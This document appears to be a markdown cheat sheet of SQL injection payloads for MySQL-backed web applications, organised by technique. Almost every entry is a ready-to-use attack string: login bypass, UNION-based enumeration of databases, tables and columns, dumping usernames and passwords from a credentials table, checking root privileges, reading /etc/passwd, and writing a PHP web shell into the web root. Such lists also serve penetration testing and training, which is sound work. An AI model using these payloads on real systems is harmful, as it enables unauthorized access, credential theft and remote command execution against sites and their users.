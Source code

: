 ## Authentication Bypass

Basic Auth Bypass without and with comments

```sh
admin' or '1'='1
```

```sh
admin')-- -
```

[Autre payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

## Union Injection

Detect number of columns using order by 

```sh
' order by 1-- -
```

Detect number of columns using Union injection

```sh
cn' UNION select 1,2,3-- - 	
```

Basic Union injection

```sh
cn' UNION select 1,@@version,3,4-- -
```

Union injection for 4 columns

```sh
UNION select username, 2, 3, 4 from passwords-- -
```

## DB Enumeration

Fingerprint MySQL with query output

```sh 	
SELECT @@version
```

Fingerprint MySQL with no output

```sh
SELECT SLEEP(5) 	
```

Current database name

```sh
cn' UNION select 1,database(),2,3-- -
```

List all databases

```sh
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

List all tables in a specific database

```sh
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

List all columns in a specific table

```sh
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

Dump data from a table in another database

```sh
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

## Privileges 	

Find current user

```sh
cn' UNION SELECT 1, user(), 3, 4-- -
```

Find if user has admin privileges

```sh
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

Find if all user privileges

```sh
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -
```

Find which directories can be accessed through MySQL

```sh
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 	
```

## File Injection 	

Read local file

```sh
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

Write a string to a local file

```sh
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

Write a web shell into the base web directory

```sh
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
